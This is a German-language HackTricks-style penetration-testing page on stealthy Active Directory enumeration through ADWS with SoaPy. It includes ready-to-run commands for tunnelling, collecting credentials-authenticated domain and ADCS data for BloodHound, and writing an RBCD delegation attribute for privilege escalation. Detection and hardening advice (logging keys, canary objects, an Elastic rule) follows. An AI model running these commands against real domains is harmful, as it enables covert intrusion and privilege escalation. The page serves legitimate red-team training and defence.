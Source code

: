 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## Was ist ADWS?

Active Directory Web Services (ADWS) ist **standardmäßig auf jedem Domänencontroller seit Windows Server 2008 R2 aktiviert** und hört auf TCP **9389**. Trotz des Namens ist **kein HTTP beteiligt**. Stattdessen stellt der Dienst LDAP-ähnliche Daten über einen Stapel proprietärer .NET-Frame-Protokolle bereit:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Da der Datenverkehr in diesen binären SOAP-Frames gekapselt ist und über einen ungewöhnlichen Port reist, **ist die Enumeration über ADWS weitaus weniger wahrscheinlich, dass sie inspiziert, gefiltert oder signiert wird als klassischer LDAP/389 & 636 Verkehr**. Für Betreiber bedeutet dies:

* Stealthier Recon – Blaue Teams konzentrieren sich oft auf LDAP-Abfragen.
* Freiheit, von **nicht-Windows-Hosts (Linux, macOS)** zu sammeln, indem 9389/TCP durch einen SOCKS-Proxy getunnelt wird.
* Die gleichen Daten, die Sie über LDAP erhalten würden (Benutzer, Gruppen, ACLs, Schema usw.) und die Möglichkeit, **Schreibvorgänge** durchzuführen (z. B. `msDs-AllowedToActOnBehalfOfOtherIdentity` für **RBCD**).

> HINWEIS: ADWS wird auch von vielen RSAT GUI/PowerShell-Tools verwendet, sodass der Datenverkehr mit legitimen Administrationsaktivitäten vermischt werden kann.

## SoaPy – Native Python-Client

[SoaPy](https://github.com/logangoins/soapy) ist eine **vollständige Neurealisierung des ADWS-Protokollstapels in reinem Python**. Es erstellt die NBFX/NBFSE/NNS/NMF-Frames bytegenau und ermöglicht das Sammeln von Unix-ähnlichen Systemen, ohne die .NET-Laufzeit zu berühren.

### Hauptmerkmale

* Unterstützt **Proxying über SOCKS** (nützlich von C2-Implantaten).
* Fein abgestufte Suchfilter identisch zu LDAP `-q '(objectClass=user)'`.
* Optionale **Schreib**-Operationen ( `--set` / `--delete` ).
* **BOFHound-Ausgabemodus** für die direkte Eingabe in BloodHound.
* `--parse`-Flag zur Verschönerung von Zeitstempeln / `userAccountControl`, wenn menschliche Lesbarkeit erforderlich ist.

### Installation (Operator-Host)
```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
## Stealth AD Collection Workflow

Der folgende Workflow zeigt, wie man **Domain- und ADCS-Objekte** über ADWS enumeriert, sie in BloodHound JSON konvertiert und nach zertifikatbasierten Angriffspfaden sucht – alles von Linux aus:

1. **Tunnel 9389/TCP** vom Zielnetzwerk zu deinem Rechner (z.B. über Chisel, Meterpreter, SSH dynamisches Port-Forwarding usw.). Exportiere `export HTTPS_PROXY=socks5://127.0.0.1:1080` oder verwende SoaPy’s `--proxyHost/--proxyPort`.

2. **Sammle das Root-Domain-Objekt:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-q '(objectClass=domain)' \
| tee data/domain.log
```
3. **Sammeln Sie ADCS-bezogene Objekte aus dem Configuration NC:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-dn 'CN=Configuration,DC=ludus,DC=domain' \
-q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
(objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
| tee data/adcs.log
```
4. **In BloodHound umwandeln:**
```bash
bofhound -i data --zip   # produces BloodHound.zip
```
5. **Laden Sie die ZIP-Datei** in die BloodHound-GUI hoch und führen Sie Cypher-Abfragen wie `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` aus, um Zertifikatseskalationspfade (ESC1, ESC8 usw.) offenzulegen.

### Schreiben von `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
--set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
Kombinieren Sie dies mit `s4u2proxy`/`Rubeus /getticket` für eine vollständige **ressourcenbasierte eingeschränkte Delegation**-Kette.

## Erkennung & Härtung

### Ausführliches ADDS-Logging

Aktivieren Sie die folgenden Registrierungsschlüssel auf Domänencontrollern, um teure / ineffiziente Suchen von ADWS (und LDAP) sichtbar zu machen:
```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
Ereignisse erscheinen unter **Directory-Service** mit dem vollständigen LDAP-Filter, selbst wenn die Abfrage über ADWS eingegangen ist.

### SACL Canary Objects

1. Erstellen Sie ein Dummy-Objekt (z. B. deaktivierter Benutzer `CanaryUser`).
2. Fügen Sie eine **Audit** ACE für das _Everyone_ Prinzipal hinzu, die auf **ReadProperty** geprüft wird.
3. Jedes Mal, wenn ein Angreifer `(servicePrincipalName=*)`, `(objectClass=user)` usw. ausführt, gibt der DC **Event 4662** aus, das die echte Benutzer-SID enthält – selbst wenn die Anfrage proxyisiert oder von ADWS stammt.

Beispiel für eine vorgefertigte Regel von Elastic:
```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
## Tooling Summary

| Zweck | Tool | Anmerkungen |
|-------|------|-------------|
| ADWS Enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, lesen/schreiben |
| BloodHound Ingest | [BOFHound](https://github.com/bohops/BOFHound) | Konvertiert SoaPy/ldapsearch Protokolle |
| Zertifikat Kompromittierung | [Certipy](https://github.com/ly4k/Certipy) | Kann über denselben SOCKS proxyisiert werden |

## References

* [SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}
